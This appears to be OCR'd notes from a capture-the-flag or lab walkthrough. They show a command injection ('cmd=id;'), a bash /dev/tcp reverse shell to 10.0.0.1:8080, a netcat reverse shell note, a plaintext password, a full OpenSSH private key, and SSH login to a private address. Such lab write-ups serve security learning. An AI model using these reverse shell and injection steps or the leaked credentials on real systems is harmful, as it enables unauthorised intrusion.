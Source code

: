 cmd=id;
-  upload shell using wget “bash \-i \>\& /dev/tcp/10\.0\.0\.1/8080 0\>\&1”
-  reverse shell netcat
-  su p48:electrico
$ p48

-  using gpg4win
-  import privkey\.gpg certfile
-  decrypt message\.gpg 
-  pwd:electrico

\-\-\-\-\-BEGIN OPENSSH PRIVATE KEY\-\-\-\-\-
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAACFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAgEAsBNVFExFUwpIaHIhMQDlu8mFwkNZWRFWBS5qE3BUUhk39/3CeAv2
81W7Z/63EM78eE1PjiccpNA5Vi2r\+nfYLS6Nj7qy11BQsGlUKgmcxW79DdmC78LaFHUkYh
G3KtnJcLh4GAlPXoOwwXgwT8iu6dbxXGOzONCrWTTQ7/UjgJOcVIx9814uBDbZAYlXyjvN
aMnrO16Jff00wurmqNfq8D0lLWiU9Wq\+9j5z\+XvqHGaei3s3Wdhfoc3jtPfwUFsKSlVrQM
nj1i/43XOogwaPAThXRf21yfw5AIworT/xFHuAPlpWpT8z0KV8I4Z\+DdiB4fHMtgWJ\+t7O
pVzaZ0OP3XiGTXu4qjnRbsXMo/D8ZbGoiADbZnCLpjNlPKAA6HuPR\+NmdnsKI/UnuQNjqz
NzBqME0Yrg9aEXUteHdk\+mKb7Rppdz8EWYBtiYj\+QReNV8DYX6CDl4yx51jTH7wN0Jb6lE
9p4ZOqmGat76j2KAtWAzF\+6zLkf4Id\+LXakzxC3tql\+02kaYfVmq40gdwllIGocEJBT3D7
SWX8XL4KeOJW/1sY7HdoVCNuXSKz82/mtUmFB7hDUYpPse/GIAMbXn6lxURNc8LfkZXEVI
enSakNjjyK0VjUYIxc/sUAulXeuOxNjv3isHANxqcsYv0o\+i2qgfAFxdsKkPML\+bh0NGTL
MAAAdIKypuuSsqbrkAAAAHc3NoLXJzYQAAAgEAsBNVFExFUwpIaHIhMQDlu8mFwkNZWRFW
BS5qE3BUUhk39/3CeAv281W7Z/63EM78eE1PjiccpNA5Vi2r\+nfYLS6Nj7qy11BQsGlUKg
mcxW79DdmC78LaFHUkYhG3KtnJcLh4GAlPXoOwwXgwT8iu6dbxXGOzONCrWTTQ7/UjgJOc
VIx9814uBDbZAYlXyjvNaMnrO16Jff00wurmqNfq8D0lLWiU9Wq\+9j5z\+XvqHGaei3s3Wd
hfoc3jtPfwUFsKSlVrQMnj1i/43XOogwaPAThXRf21yfw5AIworT/xFHuAPlpWpT8z0KV8
I4Z\+DdiB4fHMtgWJ\+t7OpVzaZ0OP3XiGTXu4qjnRbsXMo/D8ZbGoiADbZnCLpjNlPKAA6H
uPR\+NmdnsKI/UnuQNjqzNzBqME0Yrg9aEXUteHdk\+mKb7Rppdz8EWYBtiYj\+QReNV8DYX6
CDl4yx51jTH7wN0Jb6lE9p4ZOqmGat76j2KAtWAzF\+6zLkf4Id\+LXakzxC3tql\+02kaYfV
mq40gdwllIGocEJBT3D7SWX8XL4KeOJW/1sY7HdoVCNuXSKz82/mtUmFB7hDUYpPse/GIA
MbXn6lxURNc8LfkZXEVIenSakNjjyK0VjUYIxc/sUAulXeuOxNjv3isHANxqcsYv0o\+i2q
gfAFxdsKkPML\+bh0NGTLMAAAADAQABAAACAFXT9qMAUsKZvpX7HCbQ8ytInoUFY2ZBRxcb
euWi2ddzJ48hCUyPOH\+BCOs2hHITE4po1SDL\+/By96AEf1KGXMAZczPepBLEubBkh3w\+V0
b\+RSgdIPBSoQ9b0rJjRFAE/WaO5SuCTkgaFW0ZcyNRBcJC3kBU8SX\+waeoUTjG29lvGsM0
AKlC/VdcjQdstXiFEinEU4ALIyZg6Pkim/Et3v3gMGEkG4hN0mwiIVI5jvLtKtd\+5opLKM
KspBSwz1m8JxX48WERiJf9pmf8WuYTql3D4vbhJ14gLoEP0TwycQe089xxGM9QMafBIvQG
OSfyo81JmqoXpRy\+wyhkTKoNivBxENOATDy3bG0z5bfRQAlz7o5sjLh3wEMNq\+gbQsmQBB
mDgD4wA4c0/aTl7/UQXdnkcI\+/\+fOwfP0UOFZcWjO6ZORJloKjdA2nvVbvox\+6ZyRrP3AS
FWt7DYOrBbi3cJhjyJSq38qQpG1Yy0DbhMKJGMQJbjCKf3bw\+cDSsu5WiKK7y\+3LFns0Jd
NNflVRMkCERdAxWRE7Ga/1r6/TweLRCQkyGGq93sETeP373I4v35BVe6rMHTZ3U2rZ8cr/
71suv4FGP4LmvEqd/S00mgXngHLK8/KtjVKqIZAD8\+ft7mTXE9hyNPV/QLdbm/IJ5C5Fdf
BEdelzvB0Jp73ylHdhAAABACBdUjdZpPwEYyUnKRp3Xs5dEqt3IHuUV37BtAREjWT5X3bN
afjtFDJ4A\+ThPG6WImjP2IFaXWrZ0fgiSi8i8BWe3Hq6oZaApVPB7S7fxhcUm6z7TRwrUp
HOZrbeZ7wN6CTD5VjvL4B8Q9C8AyoNg/AtJKhxYjmPN\+hoaShcKCjuezwKo0E3C/Q9Mf/X
9ARR0Tfklaa2LapipPK2e3td/I84YJd7GyWxCDAmGw5RSu2cFfcwevd56CzMreJBSv7Kp8
2eX\+WC\+6fAomSD3h/BBL71mS14hWx5N\+vTxLzjqg94VfSYEE5qGvTxZRFKf/bv05sGtv/R
sK58Zhl2QfA60QAAAAEBANxmyymkC/t43RF1Pgv7lgzj7jyKMoXWcATvG3Rn026LAINMNR
AIsggMIbDi2k7K0N4jZxUmvgHFS/IVkoAMOoqbopH3R/S/oDY6gBbqkZdxHYrzAFFAI7YU
mUndb4CXRIEwjf5kRMBVIL\+Ws/aWlMvuegSmB06eBsaP7lIwPZSRYcC6pr3yg5YV2I3p7k
WWmuMlC9kvOBIl99ue8k9rGuQW6JBXZuJglHHSZk5t2cR3jxmz9KitZ96wMludkGXKHAOr
FkX8DSpYQlPOSEMRBizOf5LU6UEZTD8sDYT9DzqhRM98TaiQc1m/YD2r/Lg6A7QeyEnyJX
DqZ/48FybkHasAAAEBAMyDvNem68DH64iQbK6oGITTdHJxHtp/qKnIKGOfEdrjBsYJWXj3
rL3F6VHrWxNmj6mVNKs2SQpLptIKclmW8\+UlBYYtf4LgTzRRWMv3Ke9HYoXSpNkIIKYG2\+
TWeH1nMQDeqph1f3vMzNA6SScMpipuV5ofaENArOh6kCTFXVVuGHjoZgbgCg73FXBaTYid
Ne1y8L/lwpsPLWevpsm5DLwUrqcDaDMMd6CFjSjcKrj99DGy7oKwvkz\+4wxbsumvSmUTiY
XZVmZsuWDJbJkLzjKs6kJg14zcXm\+fDPeuSVLIQ1zd4C39QzD6CGKyXVn2zlFCs46g1Z6j
31r4Qk2RNRkAAAANcDQ4QHBvd2VyZ3JpZAECAwQFBg==
\-\-\-\-\-END OPENSSH PRIVATE KEY\-\-\-\-\-

-  ssh p48@172\.17\.0\.2 \-i id\_rsa

